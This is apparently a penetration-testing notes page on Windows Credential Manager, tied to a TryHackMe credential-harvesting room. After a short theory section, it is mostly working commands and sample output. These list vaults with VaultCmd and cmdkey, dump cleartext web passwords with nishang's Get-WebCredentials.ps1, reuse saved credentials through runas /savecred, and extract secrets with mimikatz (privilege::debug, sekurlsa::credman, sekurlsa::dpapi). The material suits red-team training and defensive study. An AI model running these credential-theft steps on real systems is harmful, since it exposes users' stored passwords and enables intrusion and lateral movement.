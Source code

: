 # 🛠️ Windows Credential Manager

## Theory

Credential Manager is a Windows feature that stores logon-sensitive information for websites, applications, and networks. It contains login credentials such as usernames, passwords, and internet addresses. There are four credential categories:

   - Web credentials contain authentication details stored in Internet browsers or other applications.
   - Windows credentials contain Windows authentication details, such as NTLM or Kerberos.
   - Generic credentials contain basic authentication details, such as clear-text usernames and passwords.
   - Certificate-based credentials: Athunticated details based on certifications.

## Practice

{% tabs %}

{% tab title="Enum" %}
On Windows systems Vaultcmd & cmdkey can be used to list credentials.

```bash
# List vaults
C:\Users\Administrator> VaultCmd /list

# Extract and decrypt all master keys
sekurlsa::dpapi

# List property of a vault
C:\Users\Administrator> VaultCmd /listproperties:"Web Credentials"

# List creds in a vault
C:\Users\Administrator> VaultCmd /listcreds:"Web Credentials"

# List creds with cmdkey
C:\Users\Administrator> cmdkey /list
```
{% endtab %}

{% tab title="Dump" %}
Vaultcmd can't show credentials. We have to use alternate methods such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)

```bash
# Get cleartext password
PS> Import-Module C:\Tools\Get-WebCredentials.ps1
PS> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
THMUser internal-app.thm.red Password! {[hidden, False], [applicationid, 00000000-0000-0000-0000-000000000000], [application, MSEdge]}
```

An alternative method of taking advantage of stored credentials is by using RunAs

```bash
# Runas with saved credential for "THM.red\thm-local"
C:\Users\Administrator> runas /savecred /user:THM.red\thm-local cmd.exe

# We also can use mimikatz to dump creds

mimikatz# privilege::debug
Privilege '20' OK

mimikatz# sekurlsa::credman
```
{% endtab %}
{% endtabs %}


## Resources

{% embed url="https://tryhackme.com/room/credharvesting" %}


